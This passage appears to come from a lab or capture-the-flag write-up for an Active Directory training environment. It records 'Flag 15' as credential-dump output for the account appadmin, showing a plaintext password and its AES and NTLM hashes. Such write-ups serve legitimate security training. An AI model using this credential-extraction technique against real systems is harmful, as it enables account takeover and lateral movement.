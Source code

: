### Flag 15 \[dcorp-adminsrv] - NTLM hash of appadmin extracted from dcorp-adminsrv 🚩

Here below the appadmin's ntlm hash:

```powershell
Authentication Id : 0 ; 138848 (00000000:00021e60)
Session           : Service from 0
User Name         : appadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/10/2025 9:28:48 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1117

         * Username : appadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : *ActuallyTheWebServer1
         * Key List :
           aes256_hmac       68f08715061e4d0790e71b1245bf20b023d08822d2df85bff50a0e8136ffe4cb
           aes128_hmac       449e9900eb0d6ccee8dd9ef66965797e
           rc4_hmac_nt       d549831a955fee51a43c83efb3928fa7
           rc4_hmac_old      d549831a955fee51a43c83efb3928fa7
           rc4_md4           d549831a955fee51a43c83efb3928fa7
           rc4_hmac_nt_exp   d549831a955fee51a43c83efb3928fa7
           rc4_hmac_old_exp  d549831a955fee51a43c83efb3928fa7
           Authentication Id : 0 ; 22574 (00000000:0000582e)
```
